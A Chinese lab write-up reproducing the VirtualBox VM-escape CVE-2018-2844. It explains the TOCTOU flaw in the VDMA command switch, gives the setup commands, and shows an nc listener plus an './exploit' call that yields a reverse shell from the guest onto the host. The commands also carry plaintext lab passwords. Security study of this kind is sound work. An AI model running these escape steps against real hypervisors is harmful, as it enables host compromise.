



# CVE-2018-2844 漏洞复现

| 项目 | 内容 |
|------|------|
| 漏洞描述 | CVE-2018-2844 |
| 宿主机版本 | ubuntu-16.04.4-desktop-amd64.iso |
| VirtualBox 版本 | virtualbox-5.2_5.2.6-120293_Ubuntu_xenial_amd64.deb |
| VirtualBox 虚拟机版本 | ubuntu-16.04.3-server-amd64.iso |
| 最终完成 | 03/09/2021 |

## 0x00 前言

Linux 上已经公开的 VirtualBox 逃逸，主要有以下几种方式：

1. **CVE-2015-3456**（毒液漏洞），尽管 VirtualBox 也发布了针对毒液的补丁，但实际上可以参考的复现案例比较少；
2. **CVE-2018-2844** 利用 TOCTOU 缺陷进行虚拟机逃逸，exploit-db 上有成型的漏洞利用代码（参考资料3）；
3. **CVE-2018-2698** 有详细的文章描述，但没有 POC，详见参考资料4；
4. **CVE-2020-2894** 配合 CVE-2020-2575 有详细的文章描述，但没有 POC。

综上所述，笔者决定对 CVE-2018-2844 进行复现。

## 0x01 原理说明（源自参考资料2）

### 漏洞所在的函数

```c
static int vboxVDMACmdExec(PVBOXVDMAHOST pVdma, const uint8_t *pvBuffer,
uint32_t cbBuffer)
{
    do
    {
        Assert(pvBuffer);
        Assert(cbBuffer >= VBOXVDMACMD_HEADER_SIZE());

        if (!pvBuffer)
            return VERR_INVALID_PARAMETER;
        if (cbBuffer < VBOXVDMACMD_HEADER_SIZE())
            return VERR_INVALID_PARAMETER;

        PVBOXVDMACMD pCmd = (PVBOXVDMACMD)pvBuffer;

        switch (pCmd->enmType)
        {
            case VBOXVDMACMD_TYPE_CHROMIUM_CMD:
            {
# ifdef VBOXWDDM_TEST_UHGSMI
                static int count = 0;
                static uint64_t start, end;
                if (count==0)
                {
                    start = RTTimeNanoTS();
                }
                ++count;
                if (count==100000)
                {
                    end = RTTimeNanoTS();
                    float ems = (end-start)/1000000.f;
                    LogRel(("100000 calls took %i ms, %i cps\n", (int)ems,
                    (int)(100000.f*1000.f/ems) ));
                }
# endif
                /** @todo post the buffer to chromium */
                return VINF_SUCCESS;
            }
            case VBOXVDMACMD_TYPE_DMA_PRESENT_BLT:
            {
                const PVBOXVDMACMD_DMA_PRESENT_BLT pBlt =
                VBOXVDMACMD_BODY(pCmd, VBOXVDMACMD_DMA_PRESENT_BLT);
                int cbBlt = vboxVDMACmdExecBlt(pVdma, pBlt, cbBuffer);
                Assert(cbBlt >= 0);
                Assert((uint32_t)cbBlt <= cbBuffer);
                if (cbBlt >= 0)
                {
                    if ((uint32_t)cbBlt == cbBuffer)
                        return VINF_SUCCESS;
                    else
                    {
                        cbBuffer -= (uint32_t)cbBlt;
                        pvBuffer -= cbBlt;
                    }
                }
                else
                    return cbBlt; /* error */
                break;
            }
            case VBOXVDMACMD_TYPE_DMA_BPB_TRANSFER:
            {
                const PVBOXVDMACMD_DMA_BPB_TRANSFER pTransfer =
                VBOXVDMACMD_BODY(pCmd, VBOXVDMACMD_DMA_BPB_TRANSFER);
                int cbTransfer = vboxVDMACmdExecBpbTransfer(pVdma, pTransfer,
                cbBuffer);
                Assert(cbTransfer >= 0);
                Assert((uint32_t)cbTransfer <= cbBuffer);
                if (cbTransfer >= 0)
                {
                    if ((uint32_t)cbTransfer == cbBuffer)
                        return VINF_SUCCESS;
                    else
                    {
                        cbBuffer -= (uint32_t)cbTransfer;
                        pvBuffer -= cbTransfer;
                    }
                }
                else
                    return cbTransfer; /* error */
                break;
            }
            case VBOXVDMACMD_TYPE_DMA_NOP:
                return VINF_SUCCESS;
            case VBOXVDMACMD_TYPE_CHILD_STATUS_IRQ:
                return VINF_SUCCESS;
            default:
                AssertBreakpoint();
                return VERR_INVALID_FUNCTION;
        }
    } while (1);
```

在这个函数中，使用 switch case 来根据 VDMA 的命令类型来调用相应的函数。而在 linux 中，编译时候，编译器将会优化这一操作，将 switch 修改为跳转表来进行跳转。
这样的 switch 优化的跳转表是一个二级跳转表，这就为 TOCTOU 缺陷做了基础。

### 汇编层面分析

```
first:
.text:00000000000B957A                 cmp     dword ptr [r12], 0Ah ; switch 11 cases
.text:00000000000B957F                 ja      VBOXVDMACMD_TYPE_DEFAULT ; jumptable
00000000000B9597 default case

second:
.text:00000000000B9585                 mov     eax, [r12]
.text:00000000000B9589                 lea     rbx, vboxVDMACmdExec_JMPS
.text:00000000000B9590                 movsxd  rax, dword ptr [rbx+rax*4]
.text:00000000000B9594                 add     rax, rbx
.text:00000000000B9597                 jmp     rax             ; switch jump
```

### 跳转表

```
.rodata:0000000000185538 vboxVDMACmdExec_JMPS dd offset
VBOXVDMACMD_TYPE_DEFAULT - 185538h
.rodata:0000000000185538                 ; DATA XREF: vboxVDMACommand+1D9o
.rodata:0000000000185538                 dd offset
VBOXVDMACMD_TYPE_DMA_PRESENT_BLT - 185538h ; jump table for switch statement
.rodata:0000000000185538                 dd offset
VBOXVDMACMD_TYPE_DMA_BPB_TRANSFER - 185538h
.rodata:0000000000185538                 dd offset VBOXVDMACMD_TYPE_DEFAULT - 185538h
.rodata:0000000000185538                 dd offset VBOXVDMACMD_TYPE_DEFAULT - 185538h
.rodata:0000000000185538                 dd offset VBOXVDMACMD_TYPE_DEFAULT - 185538h
.rodata:0000000000185538                 dd offset VBOXVDMACMD_TYPE_DEFAULT - 185538h
.rodata:0000000000185538                 dd offset VBOXVDMACMD_TYPE_DMA_NOP - 185538h
.rodata:0000000000185538                 dd offset VBOXVDMACMD_TYPE_DMA_NOP - 185538h
.rodata:0000000000185538                 dd offset VBOXVDMACMD_TYPE_DEFAULT - 185538h
.rodata:0000000000185538                 dd offset VBOXVDMACMD_TYPE_DMA_NOP - 185538h
.rodata:0000000000185564                 align 20h
```

### TOCTOU 缺陷说明

关于 TOCTOU，以下面的程序举个例子：

```c
file = "/tmp/X";
fileExist = check_file_existence(file);
if (fileExist == FALSE)
{// The file does not exist, create it.
f = open(file, O_CREAT);}
```

在 file 的 fileExist=FALSE 时候才能调用 open 读取，但是如果我们将程序视为一步一步的执行函数的时候，在 if 这个 check 过了后，我们假设有一段时间程序才会执行 open，那么这时候有另外一个程序把 file 这个指针修改为我们想要的 open 的文件，这时候就相当于我们可以任意读取文件了。
而 TOCTOU 这个缺陷原理就是在程序的这两个 check 和 use 操作之间的时间隙中，用另外一个线程去修改指针，以此达到我们缺陷的目的。

这样，这个漏洞的利用也就很明了了。编译后的代码对 `pCmd->enmType` 进行了两次独立的内存读取：第一次在 `cmp dword ptr [r12], 0Ah` 进行边界检查（check），第二次在 `mov eax, [r12]` 获取跳转表索引（use）。由于该变量位于 guest 可写的共享 VRAM 中且未声明 volatile，这两次读取之间存在 TOCTOU 窗口。只需变量在第一次读取时通过边界检查（值 <= 10，即那 11 个 case），然后在第二次读取前用另一个线程将其修改为精心计算的越界值，就可以控制跳转表的 offset，使 switch 跳转到可控区域，执行事先布置好的 shellcode。

另外，这个漏洞可以实现逃逸的原因是 VBVA 是建立在 HGSMI 的基础上的，HGSMI 是通过共享的 ram 缓存区实现的双向内存，vram 缓存区物理地址为 0xE0000000，所以可以通过这个缓存区去获取物理机界面。
而这个漏洞函数的地址就是在处理显示器传输给主机的共享 DMA 命令的代码中。

## 0x02 准备工作

1. 连接目标客户机
2. 安装 virtualbox-5.2_5.2.6-120293_Ubuntu_xenial_amd64.deb
3. 导入虚拟机
4. 设定 exp 所需虚拟机分辨率

## 0x03 逃逸过程

### 1. 连接虚拟机

```bash
$ ssh vbtest@cimer.kms.app -p 8106
$ sudo apt update
$ sudo dpkg -i virtualbox-5.2_5.2.6-120293_Ubuntu_xenial_amd64.deb
$ sudo dpkg -c virtualbox-5.2_5.2.6-120293_Ubuntu_xenial_amd64.deb
$ sudo apt install -f
$ sudo VBoxManage import server.ova
$ sudo VBoxManage startvm server -type headless
# VBoxManage 设定虚拟机分辨率
$ VBoxManage setextradata global GUI/MaxGuestResolution any
$ VBoxManage setextradata "server" "CustomVideoMode1" "800x600x32"

# 注意 grub 配置可能需要调整，修改 grub 配置可能导致分辨率变化
GRUB_HIDDEN_TIMEOUT=0
```

### 2. 启动虚拟机所在目录，启动虚拟机



### 3. 远程登录

```bash
$ rdesktop cimer.kms.app:8105 -u vbtest -p 123456
# passwd 123456
$ sudo virtualbox
# passwd 123456
# 虚拟机 server -> 设置 -> 用文件管理器查看，关闭启动 virtualbox 的 shell
# 打开 server.vbox
$ login test
# passwd test

# 这里省略了查看本地机器IP的过程
# $ ip a

$ sudo su
# passwd test
$ nc -vvv -l -p 6969

# 上面的工作也可以启动一个shell进行操作
```



### 4. 逃逸

### 5. 验证

```bash
# 宿主机启动一个新的 shell

$ ssh test@192.168.128.115
# passwd test
$ sudo su
# passwd test
$ ./exploit 192.168.128.115 6969

# 这里有可能会概率 1/3 失败，重新试一遍上面的步骤即可！！！
# 这里有可能会概率 1/3 失败，重新试一遍上面的步骤即可！！！
# 这里有可能会概率 1/3 失败，重新试一遍上面的步骤即可！！！

# 这时候虚拟机那边的shell就是已经逃逸的结果了
$ whoami
$ uname -a
# 这里可以启动一个本地 shell uname -a 一下，证明逃逸
$ cd /tmp
$ ls -al | grep pwn.txt
$ touch pwn.txt
$ ls -al | grep pwn.txt

# 然后关了就行了
```



## 0x04 总结

尽管 CVE-2018-2844 资料比较充足，只要照做复现就可以了。但是因为 EXP 对分辨率有要求，所以中间遇到了一些问题，感谢 imazes 大佬帮忙解决了问题。所以这次复现也算是勉强完成了吧。

## 参考资料

1. https://www.exploit-db.com/exploits/45372
2. https://blog.soreatu.com/posts/reproduction-report-cve-2018-2844/
3. https://github.com/renorobert/virtualbox-cve-2018-2844
4. https://www.exploit-db.com/exploits/43878
